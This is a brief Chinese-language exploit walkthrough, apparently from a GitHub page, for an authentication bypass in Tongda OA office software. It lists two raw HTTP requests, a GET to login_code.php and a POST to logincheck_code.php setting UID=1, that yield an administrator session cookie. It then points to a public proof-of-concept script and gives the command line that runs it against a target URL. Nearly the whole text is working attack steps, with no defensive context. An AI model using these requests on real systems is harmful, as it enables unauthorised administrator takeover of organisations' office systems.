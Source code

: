 ## 0x00 发送第一个请求包

```
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

## 0x01 发送第二个请求包


```
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1


```

## 获取cookie后访问管理员页面 /general/index.php
------------

可以利用工具获取cookie
借助工具：https://github.com/NS-Sp4ce/TongDaOA-Fake-User/blob/master/POC.py

python3 POC.py -v 2017 -url http://xxxxxxxxxxxxxxxxxxxxxx

